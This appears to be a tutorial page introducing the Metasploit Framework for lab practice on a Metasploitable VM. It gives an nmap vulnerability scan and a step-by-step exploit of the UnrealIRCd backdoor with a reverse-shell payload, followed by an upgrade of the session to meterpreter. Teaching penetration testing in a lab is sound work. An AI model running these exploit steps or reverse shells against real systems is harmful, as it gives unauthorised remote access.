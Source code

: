 ```yaml
---
title: Metasploit Framework 🔐
description: Learn about Metasploit, its purpose, and how to use it responsibly.
layout: ../../layouts/MainLayout.astro
---
```


## Setup Before We Begin 🛠

Before diving into the Metasploit Framework, make sure you've set up your [Metasploitable VM](page-metasploitable).

## What is Metasploit Framework? 🌐

The Metasploit Framework, maintained by Rapid7, is a vital computer security project that helps with security vulnerability information, penetration testing, and the creation of IDS signatures. It encompasses a set of powerful tools, including the iconic "msfconsole," designed to access various networks and computer systems.

## The Versatility of Metasploit 🧐

Metasploit is a versatile tool, serving both ethical hackers and cybercriminals. Its open-source nature allows adaptation to various operating systems. For this guide, we focus on ethical hacking, and we are not responsible for any other use.

## Understanding msfconsole 🔮

"msfconsole" is the primary interface for the Metasploit Framework, serving as a centralized console that grants access to numerous Metasploit options. It allows you to scan, exploit, and more.

Here's an example of exploiting a Metasploitable VM that you can download from [here](https://information.rapid7.com/download-metasploitable-2017-thanks.html). In this example, we're targeting port 6667 (IRC), but you can use Nmap for broader port and vulnerability scanning.

### Example Nmap scan for more ports and vulnerabilities:

```markdown
sudo nmap -sV -sT --script=vuln ip_of_vm
```

## Installing Metasploit Framework 💻

The Metasploit Framework should already be installed on the [Virtual Machine](page-3) we previously set up. If it's not, you'll need to install it yourself.

## Running msfconsole 💡

To launch the "msfconsole" tool, follow these steps:

1. Open your terminal.
2. Type the following command:
```markdown
msfconsole
```

You'll see this result:

```markdown
msf6 >
```

## Getting Started with Metasploit 💪

With Metasploit, you can select exploits, scanners, and more using the "use" command. For instance:

```markdown
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
```

Once you've chosen an exploit, you'll need to set a payload using the "set" command. Here's an example:

```markdown
msf6 > set PAYLOAD cmd/unix/reverse
```

This sets the payload as "cmd/unix/reverse," which opens a backdoor for command line access.

After selecting an exploit and payload, you'll need to configure other settings. You can view the required options using the "show options" command:

```markdown
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options
```

You'll see details that need to be specified, like LHOST (your local host) and RHOST (the target's IP). You can set them using the "set" command. For instance:

```markdown
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOST xx.xx.xx.xx
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.0.xx
```

With the configuration complete, you're ready to exploit the target using the "exploit" command.

## Upgrading a Metasploit Session 🔝

For more advanced users, you can upgrade a session. If you've already exploited a server using an IRC backdoor exploit, you can enhance your capabilities by:

1. Pressing "Ctrl + Z" to return to the msfconsole.
2. Typing "sessions" to view active sessions.
3. Finding the session number.
4. Upgrading it using "session -u session_num."

Now, you can access more commands and options within a meterpreter session by typing "help."

Stay responsible and always adhere to ethical hacking practices. 🛡